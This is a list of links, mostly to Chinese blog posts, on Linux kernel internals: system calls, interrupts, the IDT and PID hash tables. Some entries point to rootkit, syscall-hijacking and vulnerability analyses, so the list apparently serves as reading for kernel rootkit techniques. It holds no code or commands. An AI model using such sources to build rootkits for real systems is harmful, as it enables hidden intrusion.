* [浅析kprobe调试方法的背后原理](http://blog.chinaunix.net/uid-23769728-id-3198044.html)
* [Linux下实现劫持系统调用的总结](http://bbs.chinaunix.net/thread-1946913-1-1.html)
* [系统接口——系统调用的实现](https://blog.csdn.net/jieqiong1/article/details/54379265)
* [系统调用](https://www.cnblogs.com/wuchanming/p/4490622.html)
* [由实模式到start_kernel](https://www.open-open.com/pdf/bb576d1c368c43fb9c3c0dc36e37fb7e.html)
* [linux下X86架构IDT解析](http://blog.chinaunix.net/uid-27717694-id-3942170.html)
* [CALL指令有多少种写法](https://www.cnblogs.com/lq0729/articles/2796448.html)
* [[linux][retpoline] retpoline技术分析](https://cloud.tencent.com/developer/article/1087370)
* [Intel系列CPU指令速查手册](http://blog.sina.com.cn/s/blog_6badf70001010qlf.html)
* [内核分析-第五周](https://blog.csdn.net/wdxz6547/article/details/50993837)
* [深入理解 x86/x64 的中断体系--IVT VS IDT](https://blog.csdn.net/sdulibh/article/details/82852900)
* [中断的定义与种类](https://lrita.github.io/2019/03/05/linux-interrupt-and-trap/#%E4%B8%AD%E6%96%AD%E7%9A%84%E5%AE%9A%E4%B9%89%E4%B8%8E%E7%A7%8D%E7%B1%BB)
* [linux内核V2.6.11学习笔记(5)--异常处理](http://www.cppblog.com/converse/archive/2009/04/29/81496.html)
* [实例一——为自己的操作系统中加入中断(中断机制的实现)](https://blog.csdn.net/beswkwangbo/article/details/8145190)
* [利用gdb python extention学习内核](https://www.jianshu.com/p/a81f0822190b)
* [细说内核中断机制](https://blog.csdn.net/skyflying2012/article/details/7850674)
* [Linux系统调用过程分析](https://www.binss.me/blog/the-analysis-of-linux-system-call/)
* [在x86_64 linux中进行系统调用是否仍会产生中断？](http://www.kbase101.com/question/56665.html)
* [Intel x86 vs x64 system call](https://stackoverflow.com/questions/15168822/intel-x86-vs-x64-system-call)
* [linux下的vdso与vsyscall](http://www.cppblog.com/hex108/archive/2010/11/22/134313.html)
* [Compat SYSCALL in Lego](http://lastweek.io/lego/syscall/compat/)
* [What happens if you use the 32-bit int 0x80 Linux ABI in 64-bit code?](https://stackoverflow.com/questions/46087730/what-happens-if-you-use-the-32-bit-int-0x80-linux-abi-in-64-bit-code)
* [what-is-kernel-vsyscall](https://stackoverflow.com/questions/344829/what-is-kernel-vsyscall)
* [中断和异常](https://www.binss.me/blog/interrupt-and-exception/)
* [Linux系统调用之SYSCALL_DEFINE](https://blog.csdn.net/hxmhyp/article/details/22699669)
* [Linux CVE-2009-0029 漏洞解析](https://blog.csdn.net/hxmhyp/article/details/22619729)
* [UEFI BIOS Rootkit Analysis](https://www.cnblogs.com/LittleHann/p/4649366.html)
* [进程的管理与调度](https://www.cnblogs.com/zfyouxi/p/4263622.html)
* [Linux内核中的双向循环链表学习](https://www.cnblogs.com/lknlfy/archive/2012/07/09/2582397.html)
* [Linux Rootkit Learning](http://www.cnblogs.com/LittleHann/p/3870974.html)
* [遍历进程链表](https://edsionte.com/techblog/archives/1841)
* [linux 内核分析之list_head](https://www.cnblogs.com/riky/archive/2006/12/28/606242.html)
* [Linux内核学习——Linux进程概述](https://r00tk1ts.github.io/2017/08/22/Linux%E8%BF%9B%E7%A8%8B%E6%A6%82%E8%BF%B0/)
* [哈希链表的遍历](https://www.linuxidc.com/wap.aspx?nid=78001&p=4&cid=6&sp=56)
* [linux内核之哈希链表解析](https://blog.csdn.net/YuZhiHui_No1/article/details/38357899)
* [哈希表在进程管理中的应用](http://www.voidcn.com/article/p-oyhzfnjz-sq.html)
* [linux 进程管理-----pid哈希链表](https://blog.csdn.net/jianghuan555/article/details/38037877)
* [Inserting a PID in the Linux Hash-Table](https://stackoverflow.com/questions/27862132/inserting-a-pid-in-the-linux-hash-table)
* [Linux kernel Hash list](https://blog.csdn.net/viewsky11/article/details/53123651)
* [Linux进程ID号--Linux进程的管理与调度（三）](https://github.com/gatieme/LDD-LinuxDeviceDrivers/tree/master/study/kernel/01-process/01-task/03-pid)
* [list-and-hlist](http://wiki.dreamrunner.org/public_html/Embedded-System/kernel/list-and-hlist.html)
* [pid到struct pid内核函数详解](http://blog.chinaunix.net/uid-27033491-id-3291864.html)
* [linux内核根据pid，列出家族信息中的程序名和PID号](http://blog.tiaozaoj.com/index.php/archives/194/)
* [linux内核PID管理](https://carecraft.github.io/basictheory/2017/03/linux-pid-manage/)
* [bh-win-04-butler](https://www.blackhat.com/presentations/win-usa-04/bh-win-04-butler.pdf)
* [novelinux](https://github.com/novelinux/linux-4.x.y/tree/master/kernel/pid.c)
* [linux的container_of](http://blog.udn.com/2768717191/25366271)
* [深入理解 Linux 的 RCU 机制](https://juejin.im/post/59f6e0a86fb9a045167c7831)
* [通过pid查找进程task_struct结构体](https://blog.csdn.net/weijitao/article/details/79918013)
* [linux内核哈希查找（1）](http://blog.chinaunix.net/uid-27033491-id-3291637.html)
* [Linux内核中namespace之PID namespace](https://www.cnblogs.com/ck1020/p/5954135.html)
* [Linux 内核进程管理之进程ID](https://www.cnblogs.com/hazir/p/linux_kernel_pid.html)
* [Linux pid_hash散列表](https://blog.csdn.net/bysun2013/article/details/14053937)